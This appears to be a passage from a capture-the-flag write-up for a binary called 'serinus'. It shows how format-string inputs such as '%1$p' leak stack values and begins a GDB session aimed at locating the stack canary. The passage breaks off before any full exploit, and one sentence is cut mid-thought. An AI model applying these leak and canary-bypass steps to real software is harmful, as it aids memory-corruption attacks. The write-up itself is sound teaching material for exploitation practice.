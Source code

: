 However, we inherently control the exact format of this string due to the fact that it just includes the variable itself. The `printf` statement will start to print addresses contained on the There is more info on this vulnerability out in the wild such as [here](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)- so I encourage you to look more into it if you'd like to.

Let's run the program to see this in action. We'll use `%1` to print the first address on the stack and `$p` to indicate that we want to print out a pointer value.

```
└─$ ./serinus       
 /\ /\ 
((ovo))
():::()
  VVV
Do you like my bird drawing?
%1$p
(nil)
What would you rate it from 1-10? Be nice please. :)
```

We can see that `nil` was printed out, meaning it has a NULL value. Let's try the second pointer on the stack.

```
└─$ ./serinus
 /\ /\ 
((ovo))
():::()
  VVV
Do you like my bird drawing?
%2$p
0x2
What would you rate it from 1-10? Be nice please. :)
```

We can see that this time it printed out `0x2`. This means we can successfully leak addresses on the stack! Now what we'll need to do is determine which index contains the canary value we're looking for.

## Canary Leak

Before we actually begin to enumerate stack pointers to determine which contains the canary value, we need to understand what they generally look like.

Stack canaries (at least in older programs like what we have here) generally contain an abnormal set of characters that do not start with `ff` that also end with two `00`'s. While this may not always be the case, it is generally used as a reference to determine what the stack canary may look like.

Let's take a look back at GDB and examine the stack along with the canary to see where it might be. We need to make sure that we set our breakpoint right after the `gets()` call, as this is where the values on the stack will be when we use the format string vulnerability to enumerate them

```
pwndbg> break *0x080492a8   
Breakpoint 1 at 0x80492a8   
pwndbg> run                 
Starting program: /home/daz/tech/ctf/ccso_intro_2025/serinus/serinus 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
 /\ /\                                                                                
((ovo))                                                                                                                                                                     
():::()                
  VVV                 
Do you like my bird drawing?              
Yes                                  
Breakpoint 1, 0x080492a8 in vuln ()
```